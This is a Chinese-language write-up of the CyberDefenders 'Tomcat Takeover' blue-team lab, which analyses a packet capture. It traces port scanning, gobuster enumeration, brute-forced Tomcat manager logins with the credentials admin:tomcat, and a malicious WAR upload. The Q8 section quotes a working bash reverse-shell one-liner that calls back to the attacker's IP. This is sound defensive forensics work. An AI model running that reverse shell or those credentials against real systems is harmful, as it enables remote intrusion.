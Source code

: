 ```yaml
---
title: Tomcat Takeover Lab
published: 2025-08-08
updated: 2025-08-08
description: "CyberDefenders Tomcat Takeover Lab writeup"
image: "/assets/cyberdefenders/Tomcat_Takeover_Lab/cover.png"
tags: ["CyberDefenders", "Blue Team CTF"]
category: "CyberDefenders"
draft: false
---
```


# Tomcat Takeover Lab

[Lab 連結](https://cyberdefenders.org/blueteam-ctf-challenges/tomcat-takeover/)

## Q1

可以找到很多由 `14.0.0.120` 發送的 `SYN` ，但是伺服器一直回傳 `RST, ACK`，可能是拒絕連線

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102155.png)

所以看起來是 `14.0.0.120` 正在掃 port

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102189.png)

## Q2

用 [Instant IP Address Lookup](https://whatismyipaddress.com/ip-lookup) 可以知道這個 ip 來自中國

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102221.png)

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102273.png)

## Q3

在 wireshark 搜尋包含 admin 的字串

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102306.png)

會發現 /admin 的 host 是 `10.0.0.112: 8080`

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102340.png)

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102376.png)

## Q4

不知道要怎麼確認攻擊者列舉目錄時使用的工具，偷偷看了 Hint

攻擊者在掃描或列舉目標網站的路徑或服務時會嘗試一些不存在的頁面，而導致 404，所以就去 wireshark 搜尋包含 404 的封包

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102411.png)

`User-Agent` 可能留有特徵字串，所以從 `User-Agent` 可以知道攻擊者使用的工具是 `gobuster`

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102442.png)

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102472.png)

## Q5

用 `tcp.port == 8080 && ip.addr == 14.0.0.120 && http.request.method == "GET"` 篩選出攻擊者對 Tomcat 8080 端口的所有 HTTP GET 請求。

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102505.png)

其中`GET /manager/html` 可以發現攻擊者一直在以不同帳號密碼嘗試登入，所以可以知道攻擊者是發現 `/manager` 與 admin 頁面有關

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102537.png)

## Q6

在 `GET /manager/html` 成功得到回應的`Authorization`可以得到 Base64 ，用 CyberChef decode 之後可以得到帳號密碼 `admin:tomcat`

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102570.png)

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102610.png)

## Q7

可以在 `POST /manager/html/upload` 中找到被上傳的檔案 `JXQOZY.war`

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102640.png)

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102670.png)

## Q8

檢查檔案上傳後的 TCP Stream

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102701.png)

就能發現攻擊者透過 `/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'` 確保在受感染的電腦上保持持久性

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102755.png)

![](/assets/cyberdefenders/Tomcat_Takeover_Lab/IMG-20250808205102788.png)

---

```txt
I successfully completed Tomcat Takeover Blue Team Lab at @CyberDefenders!
https://cyberdefenders.org/blueteam-ctf-challenges/achievements/n1ght0w1/tomcat-takeover/

#CyberDefenders #CyberSecurity #BlueYard #BlueTeam #InfoSec #SOC #SOCAnalyst #DFIR #CCD #CyberDefender
```

---

## 工具

[Instant IP Address Lookup](https://whatismyipaddress.com/ip-lookup)
查詢 ip

[A-Packets](https://apackets.com/)
分析封包

